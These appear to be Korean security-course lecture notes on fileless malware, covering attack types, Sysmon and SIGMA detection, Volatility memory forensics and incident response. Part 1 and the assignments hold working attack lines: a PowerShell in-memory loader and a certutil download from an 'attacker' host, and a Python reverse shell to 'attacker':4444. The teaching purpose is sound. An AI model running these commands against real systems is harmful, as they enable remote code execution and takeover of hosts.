





# Week 09: Fileless·Memory-only 악성코드 — 디스크에 흔적이 없다

## 이번 주의 위치
악성코드는 **디스크에 파일을 남기지 않는** 방향으로 진화했다. Memory-only implant·LOLBin(Living Off the Land Binaries)·스크립트 인터프리터 남용. 에이전트는 이를 *세션 내 생성·실행·소멸*의 Transient Tool 형태로 수행한다. 디스크 기반 전통 AV는 *근본적으로 부족*하다.

## 학습 목표
- Fileless 공격의 3가지 주요 방식 이해
- Memory forensics의 기본 (Volatility 3)
- 에이전트가 fileless 공격을 *쉽게 조립*하는 구조 관찰
- 6단계 IR 절차 적용
- EDR·행위 탐지·제어 정책의 조합

## 전제 조건
- C19·C20 w1~w8
- C14 SOC 심화 (Volatility)

## 강의 시간 배분
(공통)

---

## 용어 해설

| 용어 | 설명 |
|------|------|
| **Fileless Malware** | 디스크 파일 없이 메모리에서만 실행 |
| **LOLBin** | 시스템 기본 제공 정당한 바이너리로 공격 수행 |
| **LOLBAS** | Windows LOLBin의 공식 카탈로그 |
| **GTFOBins** | Linux 동의어 |
| **Reflective Loading** | DLL·실행파일을 *메모리에만* 로드 |
| **PowerShell Downgrade** | 로그 회피용 버전 하향 |

---

# Part 1: 공격 해부 (40분)

## 1.1 세 가지 Fileless 유형



## 1.2 Type 1 — Reflective Load (Windows)

PowerShell로 원격 DLL 다운로드 → *메모리에 로드* → 실행. 디스크 없음.

```powershell
# 전형
$b = (New-Object Net.WebClient).DownloadData('http://attacker/loader')
$asm = [System.Reflection.Assembly]::Load($b)
$asm.EntryPoint.Invoke($null, @())
```

AV 스캔은 *디스크 파일*이 없어 못 잡는다.

## 1.3 Type 2 — LOLBin

Windows의 `certutil.exe`·`msbuild.exe`·`regsvr32.exe`·`mshta.exe`·`rundll32.exe` 등이 *공격에 악용* 가능.

```
certutil.exe -urlcache -split -f http://attacker/a.exe a.exe
# 정상 바이너리로 다운로드 — EDR 화이트리스트
```

Linux:
- `python3 -c 'socket 기반 리버스 셸'`
- `awk 'BEGIN{... socket ...}'`
- `find / -perm -u=s -type f 2>/dev/null`

## 1.4 Type 3 — 인터프리터 남용

```bash
# Python oneliner
python3 -c "import os,pty,socket;s=socket.socket();s.connect(('attacker',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('sh')"
```

## 1.5 에이전트의 조립



에이전트가 *환경 맞춤*으로 조립 — AV 시그니처가 미리 존재할 수 없음.

---

# Part 2: 탐지 (30분)

## 2.1 *행위 기반*만 유효



## 2.2 EDR의 역할

전통 AV: 파일 해시 매칭 → fileless 무력
EDR: 프로세스 행위·메모리·네트워크 통합 → fileless 탐지 가능

## 2.3 Sysmon 설정 — Windows

```xml
<Sysmon schemaversion="4.70">
  <EventFiltering>
    <!-- 인터프리터 자식 프로세스 로깅 -->
    <RuleGroup>
      <ProcessCreate onmatch="include">
        <ParentImage condition="end with">powershell.exe</ParentImage>
        <ParentImage condition="end with">cmd.exe</ParentImage>
        <ParentImage condition="end with">mshta.exe</ParentImage>
      </ProcessCreate>
    </RuleGroup>
    <!-- 네트워크 연결 -->
    <RuleGroup>
      <NetworkConnect onmatch="include">
        <Image condition="end with">powershell.exe</Image>
        <Image condition="end with">rundll32.exe</Image>
      </NetworkConnect>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

## 2.4 SIGMA 예

```yaml
title: LOLBin — certutil urlcache download
logsource: { product: windows, service: sysmon }
detection:
  selection:
    EventID: 1
    Image|endswith: certutil.exe
    CommandLine|contains: urlcache
  condition: selection
level: high
```

---

# Part 3: 분석 (30분)

## 3.1 *메모리 포렌식*이 필수

디스크에 없으므로 *메모리 덤프*가 유일한 증거 원천.

```bash
# Linux LiME로 메모리 덤프
sudo insmod lime.ko "path=/tmp/mem.lime format=lime"

# Volatility 3
vol -f mem.lime linux.pslist
vol -f mem.lime linux.psscan   # 숨은 프로세스
vol -f mem.lime linux.bash     # bash 히스토리 복원
```

## 3.2 분석 질문

- 어떤 프로세스가 *이상한 부모*를 가졌나?
- 어떤 프로세스가 *RWX 메모리 영역*을 가졌나?
- 어떤 프로세스가 *외부 네트워크*로 연결되어 있었나?

## 3.3 Bastion + LLM 보조 분석

```
[Bastion 입력] strace 출력 2000줄
[LLM 요약]
  - PID 4532 python3이 socket 생성 후 외부 10.x.x.x:4444 연결
  - os.dup2 호출로 stdin·stdout 리디렉션
  - pty.spawn('sh') — 리버스 셸 패턴
  판정: fileless reverse shell (Python)
```

---

# Part 4: 초동대응 (40분)

## 4.1 Human 흐름

```
H1. EDR 경보 수신
H2. 의심 프로세스 확인
H3. 프로세스 종료 결정
H4. 호스트 격리 (네트워크 차단)
H5. 메모리 덤프 수집
H6. 포렌식 조사
```

## 4.2 Agent 흐름



## 4.3 비교표

| 축 | Human | Agent |
|----|-------|-------|
| 프로세스 종료 | 분 | **초** |
| 메모리 덤프 | 수동 10~30분 | **자동 수 분** |
| 횡적 확산 검색 | 사람 수 시간 | **분** |
| 포렌식 해석 | *사람만* | LLM 보조 |

---

# Part 5: 보고·상황 공유 (30분)

## 5.1 Fileless 사고의 *불확실성*

- 메모리 덤프만으로 *완전 증명* 어려움
- 소멸된 프로세스는 복원 불가
- 영향 범위 측정이 *추정*에 의존

보고서에 *불확실성 수준*을 명시.

## 5.2 임원 브리핑

```markdown
# Incident — Fileless Execution (D+1h)

**What happened**: PowerShell reflective load 시도 관찰. EDR·Bastion이
                   30초 내 프로세스 종료·호스트 격리.

**Impact**: 1 호스트. 외부 유출 증거 *없음* (메모리 덤프 분석 중).

**Ask**: EDR 다른 호스트 전수 스캔 (D+2). Fileless 행위 SIGMA 룰 배포.
```

---

# Part 6: 재발방지 (20분)

## 6.1 *실행 제한* 최우선



## 6.2 체크리스트
- [ ] AppLocker·WDAC 배포
- [ ] PowerShell Constrained Language + Script Block Logging
- [ ] Sysmon 상세 설정 전사 적용
- [ ] EDR 전 호스트
- [ ] egress default-deny + 허용 목록
- [ ] 정기 메모리 스캔 (Volatility Rapid Triage)

---

## 과제
1. **공격 재현 (필수)**: Linux Python 기반 리버스 셸 PoC + 메모리 덤프.
2. **6단계 IR 보고서 (필수)**.
3. **메모리 분석 (필수)**: Volatility로 의심 프로세스 복원 결과.
4. **(선택)**: AppLocker·WDAC 정책 초안.
5. **(선택)**: 본인 조직 *인터프리터 정책* 제안.

---

## 부록 A. LOLBAS 주요 도구

- `certutil` — 다운로드·인코딩
- `mshta` — HTA 실행
- `rundll32` — DLL 함수 실행
- `regsvr32` — 원격 스크립트
- `msbuild` — inline 컴파일
- `installutil` — .NET 실행

각 도구마다 *정당 사용 대비 공격 사용*의 패턴 차이가 있다.

## 부록 B. 메모리 포렌식 입문 명령

```bash
vol -f mem.raw windows.pslist
vol -f mem.raw windows.pstree
vol -f mem.raw windows.cmdline
vol -f mem.raw windows.malfind       # 주입 감지
vol -f mem.raw windows.netscan
```

Linux도 대응되는 플러그인 보유 (`linux.*`).

---

<!--
사례 섹션 폐기 (2026-04-27 수기 검토): w09 Fileless·Memory-only 악성코드
— PowerShell ReflectivePEInjection / WMI / regsvr32 / ETW patching 이 핵심.
T1041 단일 Exfil tag 매핑 X (fileless 의 핵심은 *디스크 흔적 없음* 인데
T1041 은 disk artifact 없이도 발생하는 generic exfil). 폐기.
재추가: PowerShell Empire 공개 walkthrough, Mandiant ETW evasion report.
-->


